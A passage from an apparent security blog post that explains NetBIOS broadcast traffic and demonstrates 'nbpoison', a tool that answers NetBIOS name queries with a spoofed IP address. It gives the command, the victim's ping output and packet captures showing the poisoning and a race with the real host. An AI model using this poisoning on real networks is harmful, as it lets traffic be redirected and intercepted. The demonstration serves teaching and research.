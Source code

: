 ADDITIONAL name registration: (NB:WORKGROUP      &lt;1e|election&gt;): IP: 192.168.1.42, TTL: 300000s
QUESTION name registration: (NB:TEST2          &lt;03|messenger&gt;)
ADDITIONAL name registration: (NB:TEST2          &lt;03|messenger&gt;): IP: 192.168.1.42, TTL: 300000s</pre>
Notice how it sends a bunch of 'release' broadcasts when it shuts down, then a bunch of 'register' broadcasts when it starts up, just as expected. Also note what a chatty protocol it is. All that traffic?

And here is a NetBIOS query from TEST1:
<pre>QUESTION query: (NB:DEMO           &lt;00|workstation&gt;)
QUESTION query: (NB:DEMO           &lt;00|workstation&gt;)
QUESTION query: (NB:DEMO           &lt;00|workstation&gt;)</pre>
Nice and simple!

But anyway, since we're seeing all the broadcasts, what's stopping us from answering them?
<h3>Poisoning</h3>
And that brings me to the final tool in the nbtool package: <tt>nbpoison</tt>. nbpoison will answer all NetBIOS queries with a chosen IP address. This includes:
<ul>
	<li>Computers on the LAN that aren't found</li>
	<li>Domains under 14 characters that can't be resolved by DNS (ie, mistyped URLs)</li>
	<li>Computers on the LAN that ARE found, sometimes (it's a race, sometimes)</li>
</ul>
Here is an example of poisoning a local address:
<pre>$ sudo ./nbpoison -s 1.2.3.4
QUESTION query: (NB:DEMO           &lt;00|workstation&gt;)
(returning response with '1.2.3.4')</pre>
And here's the victim machine:
<pre>C:\Documents and Settings\Ron&gt;ping DEMO

Pinging DEMO [1.2.3.4] with 32 bytes of data:

Request timed out.
Request timed out.
Request timed out.
Request timed out.

Ping statistics for 1.2.3.4:
    Packets: Sent = 4, Received = 0, Lost = 4 (100% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum =  0ms, Average =  0ms</pre>
Notice that it resolved to my chosen IP!

Here's what the packet capture looks like:
<pre>192.168.1.41 -&gt; 192.168.1.255	NBNS	Name query NB DEMO&lt;00&gt;
192.168.1.2 -&gt; 192.168.1.41	NBNS	Name query response NB 1.2.3.4</pre>
Nothing complicated there -- It asks who has DEMO, and I respond saying, "1.2.3.4 does".

Where it gets a little more complicated is when you race another machine. Recall that my boxes are called TEST1 and TEST2. What happens when TEST2 tries to ping TEST1?
<pre>192.168.1.42 -&gt; 192.168.1.255	NBNS	Name query NB TEST1&lt;00&gt;
192.168.1.41 -&gt; 192.168.1.42	NBNS	Name query response NB 192.168.1.41
192.168.1.2 -&gt; 192.168.1.42	NBNS	Name query response NB 1.2.3.4</pre>
In this case, TEST2 asks where to find TEST1, and gets two responses: one from TEST1, and one from me. Unfortunately, mine was second, so TEST2 gets the proper address and connects to the proper host.
